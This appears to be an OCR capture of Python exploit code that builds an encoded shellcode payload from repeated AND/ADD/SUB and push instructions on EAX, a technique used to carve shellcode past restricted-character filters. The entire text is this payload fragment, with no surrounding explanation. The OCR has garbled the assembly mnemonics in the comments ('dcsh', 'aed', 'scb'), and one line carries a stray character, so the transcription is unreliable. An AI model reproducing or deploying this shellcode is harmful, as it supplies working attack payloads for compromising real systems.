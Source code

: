 ```python
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x21\x22\x71\x53" ## add  eax, 0x53712221
shellcode += "\x05\x20\x21\x70\x43" ## add  eax, 0x43702120
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x12\x25\x67\x17" ## add  eax, 0x17672512
shellcode += "\x05\x11\x25\x67\x06" ## add  eax, 0x06672511
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x24\x03\x75\x43" ## add  eax, 0x43750324
shellcode += "\x05\x24\x03\x65\x43" ## add  eax, 0x43650324
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x34\x26\x33\x35" ## add  eax, 0x35332634
shellcode += "\x05\x44\x26\x43\x34" ## add  eax, 0x34432644
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x24\x13\x76\x24" ## add  eax, 0x24761324
shellcode += "\x05\x24\x23\x66\x24" ## add  eax, 0x24662324
shellcode += "\x05\x23\x13\x54\x24" ## add  eax, 0x24541323
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x33\x57\x14\x04" ## add  eax, 0x04145733
shellcode += "\x05\x24\x47\x04\x04" ## add  eax, 0x04044724
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x11\x36\x61\x74" ## add  eax, 0x74613611
shellcode += "\x05\x22\x36\x51\x63" ## add  eax, 0x63513622
shellcode += "\x05\x11\x24\x61\x53" ## add  eax, 0x53612411
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x07\x02\x74\x17" ## add  eax, 0x17740207
shellcode += "\x05\x07\x01\x64\x07" ## add  eax, 0x07640107
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x61\x02\x21\x35" ## add  eax, 0x35210261
shellcode += "\x05\x61\x02\x10\x35" ## add  eax, 0x35100261
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235s
shellcode += "\x05\x65\x61\x31\x42" ## add  eax, 0x42316165
shellcode += "\x05\x64\x50\x21\x41" ## add  eax, 0x41215064
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x11\x72\x54\x22" ## add  eax, 0x22547211
shellcode += "\x05\x21\x62\x44\x22" ## add  eax, 0x22446221
shellcode += "\x05\x11\x52\x43\x22" ## add  eax, 0x22435211
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
```